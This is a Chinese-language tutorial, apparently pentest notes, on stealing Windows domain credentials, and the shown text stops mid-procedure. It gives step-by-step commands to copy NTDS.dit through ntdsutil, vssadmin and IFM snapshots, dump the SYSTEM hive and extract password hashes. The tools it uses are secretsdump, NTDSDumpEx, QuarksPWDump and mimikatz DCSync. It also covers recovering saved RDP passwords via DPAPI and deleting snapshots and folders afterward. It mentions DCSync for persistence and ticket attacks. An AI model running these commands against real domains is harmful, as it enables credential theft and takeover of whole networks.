# 域控账号密码抓取

## NTDS概述
NTDS.DIT为DC的数据库，存放着有域用户、域组、用户hash值等信息。域控上面的NTDS.DIT只有登录到域控的用户（例如：域管用户、DC本地管理员用户）可以访问，为了进一步保护密码hash值，使用存储在SYSTEM注册表配置单元中的密钥对这些hash值进行了加密。

**在工作组环境中，SAM文件存储着当前主机用户的密码哈希值**

**在域环境中，NTDS.DIT文件存储了域中所有用户的密码哈希值**

**位置**：C:\Windows\NTDS


>如果要读取该文件的内容有以下几种方式

- 离线读取，将NTDS文件复制到攻击者的计算机，然后再使用工具进行读取
- 在线读取，通过给域控电脑传送可以读取NTDS文件的工具
- 远程读取，不需要上线域控，可以通过Dcsync远程读取

## 卷影拷贝

### 卷影拷贝概述
从Windows XP SP2和Windows server 2003开始，微软就向Windows操作系统中引入了一项名为卷影拷贝服务（volume shadow copy service，VSS），该服务允许Windows系统以自动或者手动的方式对文件或者磁盘卷宗的当前状态进行备份（或者快照）。

>需要注意的是在这个过程中，即使文件处于打开状态，该服务仍然可以对文件进行备份。

ntds.dit是默认被Windows系统锁定的，想要读取该文件就要利用卷影拷贝服务（volume shadow copy service，VSS）得到ntds.dit文件的副本。

卷影拷贝服务（VSS）本质属于快照技术的一种，主要用于备份和恢复，即使目标文件处于锁定状态。

### ntdsutil工具拷贝

**概述**
ntdsutil.exe是一个为活动目录提供管理机制的命令行工具，该工具默认安装在域控服务器上，可以在域控制器上直接操作，2003、2008、2012、2016等，提取NTDS过程分为3步。


**第一步：在目标机创建一个NTDS快照**
```
ntdsutil.exe snapshot "activate instance ntds" create q
```
| 部分 | 含义 |
|------|------|
| `ntdsutil.exe` | Windows 自带的"活动目录数据库管理工具"，路径通常在 `C:\Windows\System32\ntdsutil.exe`，域控默认安装 |
| `snapshot` | `ntdsutil` 的子命令模式，进入"快照管理"上下文 |
| `"activate instance ntds"` | 激活名为 `ntds` 的实例。`ntds` 是 AD 数据库服务的实例名，不激活就无法对数据库做快照 |
| `create` | 在 `snapshot` 上下文里执行"创建快照" |
| `q` | `quit` 的缩写，退出当前上下文。`ntdsutil` 是多层菜单式工具，每进入一层都要用 `q` 退出 |


记住快照ID：{3bda5e05-f223-43cf-a148-70c5812b9d5d}。

**第二步加载快照到磁盘中**
```
ntdsutil.exe snapshot "mount {3bda5e05-f223-43cf-a148-70c5812b9d5d}" q q
```

| 部分 | 含义 |
|------|------|
| `snapshot` | 再次进入快照管理上下文 |
| `"mount {GUID}"` | 把指定 GUID 的快照挂载到文件系统，挂载后会多出一个盘符或目录（如 `C:\$SNAP_20260930_VOLUMEC$`） |
| 第一个 `q` | 退出 `mount` 子上下文 |
| 第二个 `q` | 退出 `snapshot` 上下文，回到 `ntdsutil` 主菜单 |

加载成功之后，在C盘就会出现加载成功图标



**第三步：复制快照中的ntds.dit文件**
```
copy "C:\$SNAP_202609300318_VOLUMEC$\Windows\NTDS\ntds.dit" C:\Users\Administrator\Desktop
```


**第四步：拷贝成功后，删除快照**
```
ntdsutil.exe snapshot "mount {3bda5e05-f223-43cf-a148-70c5812b9d5d}" "delete {3bda5e05-f223-43cf-a148-70c5812b9d5d}" q q
```


### vssadmin工具拷贝
**概述**
vssadmin为Windows server 2008及Windows7系统以上提供的VSS管理工具，可以用于创建或者删除卷影副本、列出卷影副本的信息。

**步骤**
  - **创建C盘快照**
    ```
    vssadmin create shadow /for=c:  
    ```     
    
  - **将快照中的NTDS文件进行复**
    ```
    copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy6\Windows\NTDS\ntds.dit C:\Users\Administrator\Desktop\ntds.dit

    ``` 
    
  - **删除快照**
    ```
    vssadmin delete shadows /for=c: /quiet
    ``` 
    

### IFM方式拷贝
**概述**
可以通过创建一个IFM的方式获取ntds.dit，在使用ntdsutil工具创建媒体安装集(IFM)时，需要进行生成快照、加载，将ntds.dit和计算机的SAM文件复制到目标文件夹中等操作。
**步骤**
  - **第一步：将ntds.dit复制到C:\test\Active Directory\文件夹下，然后将SYSTEM和SECURIYTY复制到C:\test\registry下**
    ```
    ntdsutil "ac i ntds" "ifm" "create full C:/test" q q
    ```   
    
    
  - **第二步，将ntds.dit拖回本地后，在目标机器上，就是域控机器将文件夹删除**
    ```
    rmdir /s/q test
    ``` 
    

## 离线读取NTDS文件中的HASH值
**第一步：将远端域控的ntds.dit下载到本地**

**第二步：本地利用工具进行读取**

>注意：system.hive里存放着ntds.dit的密钥，所以转储system.hive，不然没法查看ntds.dit里面内容
>命令为reg save hklm\system C:\Users\Administrator\Desktop\system.hive

  - **secretsdump.exe工具**
    ```
    secretsdump.exe -system system.hive -ntds ntds.dit LOCAL
    ``` 
    
  - **NTDSDumpEx.exe工具**
    ```
    NTDSDumpEx.exe -d ntds.dit -s system -o res.txt
    ``` 
    
    

## 在线读取NTDS文件中的HASH值
>在线读取直接读取ntds文件内容，无需拷贝在本地
**Mimikatz工具**

  - **读取所有用户的hash值**
    ```
    lsadump::dcsync /domain:lab.com /all /csv
    ``` 
    
  - **读取单个用户的hash值**
    ```
    lsadump::dcsync /domain:xbxaq.com /user:administrator
    ``` 
    
**QuarksPWDump工具**

```
QuarksPWDump.exe --dump-hash-domain --ntds-file ntds.dit
```
>注意：先将ntds.dit文件先导出来

**secretsdump工具**

```
secretsdump.exe 域名/administrator:密码@IP
```

## DCSync
**原理概述**
什么是Dcsync（domain Controller synchronization ）

域控同步:在内网中一般不是一个域控， 会有域树或者域森林等，域控之间是要同步数据的,不同的域控15分钟之间要发起一次数据同步请求，请求里面就包含同步的数据，这里采用的协议是DRS(目录复制服务)，这个就是 DCsync


**哪些用户可以运行DCsync服务**

- administrators组内用户
- domain admins组内用户
- enterprise admins组内用户
- 域控制器的计算机账户

**DCsync利用思路**

- 找到有权限的用户，从而远程读取域控用户的信息，可以进行PTH、黄金、白银票据攻击
- 如果控制了域控，可以在域控添加一个管理员账户从而进行权限维持
- 可以添加一个普通的用户，修改ACL从而实现可以使用DCsync，进行权限维持

**DCsync攻击**

使用mimikatz模仿一个域控制器，从真实的域控制器中请求数据，例如用户的哈希值。

该功能最大的特点就是不用登录域控制器，即可远程通过域数据同步复制的方式获得域控制器上的数据

  - **远程读取域控HASH值**
  远程读取是利用dcsync，前提是必须找到拥有运行dcsync的账号

  所以读取hash 的步骤是两步 ：

    - 找到拥有dcsync的用户
    - 远程读取即可

    **Mimikatz工具**

    - **读取所有用户的hash值**
        ```
        lsadump::dcsync /domain:lab.com /all /csv
        ``` 
        
    - **读取单个用户的hash值**
        ```
        lsadump::dcsync /domain:xbxaq.com /user:administrator
        ``` 
        
    **QuarksPWDump工具**

    ```
    QuarksPWDump.exe --dump-hash-domain --ntds-file ntds.dit
    ```
    >注意：先将ntds.dit文件先导出来

    **secretsdump工具**

    ```
    secretsdump.exe 域名/administrator:密码@IP
    ```

  - **利用Dcsync远程读取明文账号**
    利用DCSync可以获取明文凭据，主要是因为账户勾选了"使用可逆加密存储密码"的属性 

    ```
    lsadump::dcsync /domain:lab.com /user:ls
    ```
    
## RDP密码凭证抓取
**明文密码抓取原理**

Credentials的解密是Windows系统信息收集中非常重要的一环

在平时的工作中，管理员为了方便管理计算机，经常会进行远程桌面连接，由于每次都需要输入密码觉得麻烦，就点击了保留凭据。

这个过程是可逆，所以我们可以将保存的密码进行还原。

**还原的原理**

Windows通过MasterKey将我们的密码加密后保存在本地，由于Windows还需要解密使用这个密码，所以这个过程是可逆，我们只要拿到 MasterKey就能将密码解出来。

**查看凭证方法**

  - **查看远程桌面的连接记录**
    ```
    cmdkey /list
    ```
    

  - **查找本地的的Credentials**
    ```
    dir /a %userprofile%\appdata\local\microsoft\credentials\*
    ```
    

  - **在线读取RDP明文密码**

    - **第一步：使用mimikatz获取该文件的MasterKey的guid值**
      ```
      dpapi::cred /in:凭据绝对路径
      ``` 
      
      guid:{61f7a5ab-f2d8-4c4a-a000-d23194ce3c33}
    - **第二步：使用mimikatz工具在内存中找到对应的masterkey值** 
      ```
      sekurlsa::dpapi
      ``` 
